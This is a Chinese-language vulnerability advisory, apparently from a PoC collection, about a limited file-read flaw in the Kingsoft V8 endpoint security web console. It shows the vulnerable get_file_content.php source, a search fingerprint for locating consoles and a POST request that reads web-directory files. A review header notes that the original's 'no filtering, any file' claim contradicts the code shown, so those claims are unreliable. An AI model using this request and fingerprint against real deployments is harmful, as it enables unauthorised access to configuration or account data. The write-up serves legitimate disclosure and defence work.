

# 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：金山V8终端安全Web控制台
- 本文讨论：receive_file/get_file_content.php filepath读取
- 版本、权限与配置前提：源码阻断..并open_basedir限制../，仅Web目录内读取，版本未细分
- 资料类型：受限文件读取源码分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 称无任何过滤与展示stripos/open_basedir直接矛盾
- 标题服务器任意文件应收窄为允许Web目录内文件读取，本文自己承认范围限制
- 参数名filepaht拼错；Console文件路径与URL映射需说明

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要且已脱敏的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- open_basedir实际范围、鉴权及固件待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## 网络测绘

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现

登录页面


存在漏洞的文件`/Console/receive_file/get_file_content.php`

```
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```


文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

由于不能出现 `..` ，所以只能读取web目录下的文件

```
POST /receive_file/get_file_content.php

filepath=login.php
```




---

> 来源：Threekiii/Awesome-POC
